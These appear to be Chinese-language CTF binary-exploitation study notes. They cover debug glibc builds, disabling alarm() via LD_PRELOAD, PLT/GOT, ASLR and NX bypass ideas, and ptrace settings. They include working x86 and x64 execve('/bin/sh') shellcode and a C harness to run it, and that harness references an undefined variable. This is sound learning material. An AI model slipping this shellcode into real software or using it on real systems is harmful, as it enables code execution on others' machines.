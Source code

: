 ##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcodes/
[linux pwn 入门教程 i春秋](https://bbs.ichunqiu.com/forum.php?mod=collection&action=view&ctid=157)
[格式化字符串](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=43624&ctid=157)
[调整栈帧的技巧](https://bbs.ichunqiu.com/forum.php?mod=viewthread&tid=42534&ctid=157)
[PIE无关](https://bbs.ichunqiu.com/thread-43627-1-1.html)
```
## 编译带debug symbol的glibc
### download
[glibc](http://gnu.mirrors.pair.com/libc/)
### make
解压后，要创建额外的build目录，直接在glibc目录下创建了build目录`mkdir build && cd build`，使用下面的命令进行编译,
`CFLAGS` makefile编译选项
`-g`:包含调试信息是OS native format
`-ggdb`: 供gdb使用的调试信息
`-g3`: 产生额外的debug信息
`-gdwarf-4`: 产生dwarf格式的debug info，产生 `.debug_info`段
`-Og` 启用不影响调试的编译优化
`--prefix` 安装路径
`--disable-sanity-checks` 关闭适应性检查。可能与GNU/Linux行为不一致


```sh
CFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" CXXFLAGS="-g -g3 -ggdb -gdwarf-4 -Og" ../configure --prefix=/root/app/glibc22364 --disable-werror 
``` 
### use
运行前需要加环境变量,
example:`export LD_LIBRARY_PATH=/root/app/glibc22364/lib/

### 排错
`loc1@GLIBC_2.17' can't be versioned to common symbol 'loc1'` 这是一个bug，在[这里](https://stackoverflow.com/questions/51279418/how-to-build-older-version-of-glibc)可以找到解决方法。

## 干掉alarm
很多题目都有alarm函数防止Dos攻击，超过指定的时候后程序就会退出，不便于debug，通常有几种干掉alarm的方法：
- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD
```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```
编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode
### x86 
```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```
20bytes:
```x86asm
  xor ecx,ecx 
  cdq
  push ecx 
  push 0x68732f2f 
  push 0x6e69622f 
  mov ebx,esp 
  mov al,0xb 
  int 0x80
```
### x64
24bytes:
```x64asm 
global _start
section .text
_start:
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
	push rdx
	push rdi
	push rsp
	pop rsi
	syscall
```
22bytes:
```x64asm
	push 59
	pop rax
	cdq
	push rdx
	mov rbx,0x68732f6e69622f2f
	push rbx
	push rsp
	pop rdi
  push rdx
	pop rsi
	syscall
```

```c
#include <stdio.h>
#include <string.h>
char code24[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05";
char code22[] = "\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x5e\x0f\x05";
int main()
{
    printf("len:%d bytes\n", strlen(code24));
    (*(void(*)()) code)();
    return 0;
}
```
### 制作方法
linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode

## 生成可打印的shellcode
TODO:  
http://blog.eonew.cn/archives/1125



## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
* 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## strace
strace可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败
```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```
## LD_PRELOAD、 LD_SHOW_AUXV
- LD_PRELOAD可以指定一个或多个共享库文件，linux加载器`ld-linux`会先于glibc加载LD_PRELOAD指定的库。  
用途：HOOK掉alarm。  
为了避免用于恶意攻击，在ruid !=euid的情况下加载器是不会使用LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试